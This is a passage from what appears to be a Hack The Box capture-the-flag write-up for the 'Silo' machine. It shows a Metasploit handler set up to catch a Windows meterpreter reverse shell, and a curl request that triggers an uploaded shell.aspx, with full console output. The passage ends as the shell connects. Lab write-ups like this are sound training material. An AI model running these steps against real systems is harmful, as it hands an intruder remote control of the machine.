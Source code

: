 Before curling the shell, I open a metasploit multi/handler:

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.10.17.28
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.17.28:1337
msf6 exploit(multi/handler) >  jobs

Jobs
====

  Id  Name                    Payload                          Payload opts
  --  ----                    -------                          ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://10.10.17.28:1337
```

To call the reverse shell I use curl:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ curl http://silo.htb/shell.aspx
```

And I got the meterpreter shell:
